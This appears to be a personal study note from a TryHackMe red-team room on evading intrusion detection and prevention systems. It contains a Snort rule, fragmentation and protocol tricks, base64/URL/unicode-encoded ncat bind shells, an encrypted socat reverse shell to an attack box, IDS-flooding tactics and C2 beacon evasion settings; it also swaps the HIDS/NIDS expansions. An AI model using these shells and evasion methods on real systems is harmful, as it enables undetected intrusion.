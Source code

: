 # Evading-IPS-And-IDS
Visit the [[Intrusion-Detection-Systems]] and [[Intrusion-Prevention-Systems]] articles for more

## Definitions

Acronym | Full Name
--- | --- 
IPS | Intrusion Prevention System
IDS  |Intrusion Detection System
HIDS |  Network-based-IDS
NIDS |  Host-based-IDS

Network Traffic and Host activities is either Benign or Malicious traffic.

Method of Detection | Description
--- | ---
Signature-based | Signatures of known malicious traffic fed into IDS.
Anomaly/Behaviour-based |  Regular traffic model, for IDS to detect anomalies.
Policy-based |  Detect based on policy violations

## IDS/IPS each have rule syntax:
For example [[Snort]] uses:

Rule Header | Rule options 
--- | ---
Action		|	alert, log, pass, drop and reject
Protocol	| 	TCP, UDP, ICMP or IP
Source IP/Port  | IP/mask any # = anything but from IP/mask range
Direction of Flow |	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port |Similar to Source IP/Port
Some more specifics | `flow:established` (full three handsake stream), `content:"<TYPE>"` 

Snort rule that detects the term `ncat` in the payload of the traffic exchanged with our webserver to learn how people exploit this vulnerability would end up like:
``alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)


## Evasion via protocol manipulation includes:

- Use different protocol
- Source Port
- Session Splicing
- Invalid Packets

#### Relying on a different protocol

IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

#### Manipulating (Source) TCP/UDP port

If you all your traffic coming from an established [[Network-Services]] port then the recieving end will interpret just by port number, allowing for evasion. Without deep packet inspection, the port numbers are the primary indicator of the service used, unless the security solution can analyze the data carried by the TCP segments.


#### Session Splicing

IPv4, IP packet fragmentation or session splicing - simiply breaking and or reordering packets of data up. The assumption regarding this strategies potental evasiveneess is that if traffic is in smaller packets, you will avoid matching to any of the IDS signatures. Dividing your payload among multiple packets and potential reordering them and the reordering it back to its orginal linear order will evade IDS parsing for particular stream of bytes. Unless the IDS reassembles the packets, the rule won’t be triggered.

#### Sending Invalid Packets

Sending invalid packets the response of systems is unclear, therefore experimenting to with invalid pakects an IDS/IPS might process it, while the target system might ignore it.

Refer to [[Nmap-Cheatsheet]] for experimenting with invalid packets to prove the existence of IDS/IPS.

Suppose you want to force all your packets to be fragmented into specific sizes: see [monkey](https://www.monkey.org/~dugsong/fragroute/)

#### Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation

####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

#### Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

#### Modifying the shellcode

## Route Manipulation

For route manipulation see [[Proxies]] and [[Port-Redirection-And-Tunneling]]

With examples from the THM Room use: [[Nmap-Cheatsheet]]

Relying on source routing with `--ip-options "L $IP $IP $IP"` would specify loose routing - scan through any in the array, whereas strict routing with `"S"` as the 0th index of the string would strict hop from first `$IP` to the last. Using proxy servers with `--proxies proto://host:port, proto://host:port`, valid protocols are HTTP and SOCKS4 - authenication is not supported.


## Evasion via Tactical DoS

IDS/IPS requires a high processing power to managing and regulate rules grows and tthe network traffic volume increase, and with spefically IDS logging of said traffic and matching of rule signatures.
1. Create a huge amount of benign traffic that would simply overload the processing capacity of the IDS/IPS.
1. Create a massive amount of not-malicious traffic that would still make it to the logs, congesting the communication channel with the logging server or exceed its disk writing capacity.

## C2 Evasive Tactices
See [[Introduction-To-Comand-And-Control-Frameworks]] for more information:

1. User Agent - Innocuous configuration rather than default
2. Sleep time - control callback interval between beacon checkins
3. Jitter - Pseudo-Randomness of sleep time THM:*"A jitter of 30% results in a sleep time of ±30% to further evade detection."*
4. SSL Certificate - Authenicity equals success
5. DNS Beacon - If exfiltrating data via DNS - configure DNS server and the hostname in the DNS query

[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)


## Next-Gen Security

Next-Generation Network IPS (NGNIPS) has the following five characteristics according to [Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):

1.  Standard first-generation IPS capabilities: A next-generation network IPS should achieve what a traditional network IPS can do.
2.  Application awareness and full-stack visibility: Identify traffic from various applications and enforce the network security policy. An NGNIPS must be able to understand up to the application layer.
3.  Context-awareness: Use information from sources outside of the IPS to aid in blocking decisions.
4.  Content awareness: Able to inspect and classify files, such as executable programs and documents, in inbound and outbound traffic.
5.  Agile engine: Support upgrade paths to benefit from new information feeds.


## References
[THM Network Evasion Room](https://tryhackme.com/room/redteamnetsec)
[Cobalt Strike guideline profile](https://github.com/bigb0sss/RedTeam-OffensiveSecurity/blob/master/01-CobaltStrike/malleable_C2_profile/CS4.0_guideline.profile)
[monkey](https://www.monkey.org/~dugsong/fragroute/)
[Gartner](https://www.gartner.com/en/documents/2390317-next-generation-ips-technology-disrupts-the-ips-market):